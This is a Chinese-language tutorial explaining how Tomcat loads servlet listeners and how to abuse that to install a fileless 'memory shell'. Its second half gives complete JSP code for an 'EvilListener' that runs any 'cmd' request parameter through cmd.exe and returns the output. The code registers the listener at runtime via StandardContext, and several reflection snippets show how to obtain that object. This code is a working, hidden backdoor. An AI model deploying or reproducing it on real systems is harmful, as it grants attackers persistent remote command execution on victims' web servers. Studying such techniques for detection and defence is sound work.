## Tomcat-Listener内存马

### 简介

Listener监听器就是一个实现了`ServletRequestListener`接口的java代码，主要就是监听一个java对象的方法调用和属性改变。当被监听的对象发生改变时，这个监听器就会触发。我们也知道三种组件的过程，Listener>Filter>Servlet。所以Listener是最先被加载的，很方便去构造一个内存马。Listener的几种：

- ServletContext，服务器启动和终止时触发

- Session，有关Session操作时触发

- Request，访问服务时触发

### Listener流程分析

编写一个Listener程序：

```java
package Listener;

import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;

public class TestListener implements ServletRequestListener {
    @Override
    public void requestDestroyed(ServletRequestEvent var1){
        System.out.println("destroy listener");
    }
    public void requestInitialized(ServletRequestEvent var1){
        System.out.println("init listener");
    }
}


```

web.xml

```xml
<listener>
    <listener-class>Listener.TestListener</listener-class>
  </listener>
```

我们主要关注点就是`Listener`的初始化和`requestInitialized`方法的调用。

打上断点：



`StandardContext`的这个方法`startInternal`,我们都可以看出三种组件的加载顺序



初始化是从`StandardContext`的`listenerStart`方法开始的




其中`findApplicationListeners()`是获取`listener`的名称，然后进行实例化



其中对`Manager`类的介绍



前面实例化后的Listener都放到了`eventListeners`中




`eventListeners.addAll(Arrays.asList(this.getApplicationEventListeners()));`会将`ApplicationEventListeners`中也添加到`eventListeners`中

紧接着`this.setApplicationEventListeners(eventListeners.toArray());`直接设置`ApplicationEventListeners`的值

在`StartdardContext`的`fireRequestInitEvent`中，获取`ApplicationEventListeners`的值，然后进行遍历，对遍历的每一个`listener`监听器进行`requestInitialized`方法的调用（也就是我们重写的方法）





### 内存马实现流程分析

根据上面的分析，我们可以知道Listener来源于tomcat初始化时从web.xml实例化的Listener和applicationEventListenersList中的Listener，前者我们无法控制，但是后者我们可以控制，只需要往applicationEventListenersList中加入我们的恶意Listener即可。

怎么去加入我们恶意的`listener`呢？



直接提供了public方法，可以直接添加值

步骤：

\- 继承并编写一个恶意Listener
\- 获取StandardContext
\- 调用`StandardContext.addApplicationEventListener()`添加恶意Listener


代码：

```jsp
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.IOException" %>

<%!
    public class EvilListener implements ServletRequestListener {
        public void requestDestroyed(ServletRequestEvent sre) {
            //获取request
            HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();
            if (req.getParameter("cmd") != null){
                InputStream in = null;
                try {
                    in = Runtime.getRuntime().exec(new String[]{"cmd.exe","/c",req.getParameter("cmd")}).getInputStream();
                    Scanner s = new Scanner(in).useDelimiter("\\A");
                    String out = s.hasNext()?s.next():"";
                    //获取response
                    Field requestF = req.getClass().getDeclaredField("request");
                    requestF.setAccessible(true);
                    Request request = (Request)requestF.get(req);
                    request.getResponse().getWriter().write(out);
                }
                catch (IOException e) {}
                catch (NoSuchFieldException e) {}
                catch (IllegalAccessException e) {}
            }
        }

        public void requestInitialized(ServletRequestEvent sre) {}
    }
%>

<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext context = (StandardContext) req.getContext();
    EvilListener listener= new EvilListener();
    context.addApplicationEventListener(listener);
%>
```

其中获取`StandardContext`的方法有：

```java
Field reqF = request.getClass().getDeclaredField("request");
reqF.setAccessible(true);
Request req = (Request) reqF.get(request);
StandardContext context = (StandardContext) req.getContext();
```

获取到`Request`对象后，可以通过`getContext`获取到`StandardContext`（利用了Context接口）






还有种方法就是通过`req.getSession().getServletContext()`

其中`req`是`ServletRequest`对象



```jsp
<%
    Field appContextField = ApplicationContextFacade.class.getDeclaredField("context");
    appContextField.setAccessible(true);
    Field standardContextField = ApplicationContext.class.getDeclaredField("context");
    standardContextField.setAccessible(true);

    ServletContext servletContext = request.getSession().getServletContext();
    ApplicationContext applicationContext = (ApplicationContext) appContextField.get(servletContext);
    StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);

%>

```

又给出一种

```java
WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
    StandardContext standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();
```

### 获取`StandardContext`的方法

```
Field reqF = request.getClass().getDeclaredField("request");
reqF.setAccessible(true);
Request req = (Request) reqF.get(request);
StandardContext context = (StandardContext) req.getContext();
```

```
WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
    StandardContext standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();
```

